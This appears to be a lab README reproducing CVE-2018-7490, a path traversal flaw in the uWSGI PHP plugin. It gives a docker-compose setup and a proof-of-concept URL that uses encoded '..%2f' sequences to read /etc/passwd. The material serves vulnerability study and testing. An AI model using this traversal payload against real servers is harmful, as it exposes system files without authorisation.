 
# uWSGI PHP Directory Traversal Vulnerability (CVE-2018-7490)

[中文版本(Chinese version)](README.zh-cn.md)

uWSGI is a web application server, which implements protocols such as WSGI/uwsgi/http, and supports for various languages through plugins.

The PHP plugin of uWSGI before 2.0.17 doesn't handle the detection of `DOCUMENT_ROOT` correctly, resulting in reading or running files outside the `DOCUMENT_ROOT` through the use of `..%2f`.

## Environment Setup

Enter the following command：

```
docker-compose up -d
```

Visit `http://your-ip:8080` and you'll see the phpinfo page as the uwsgi-php server running successfully.

## POC

Directly visit `http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd`, you will get the passwd file：

![](1.png)
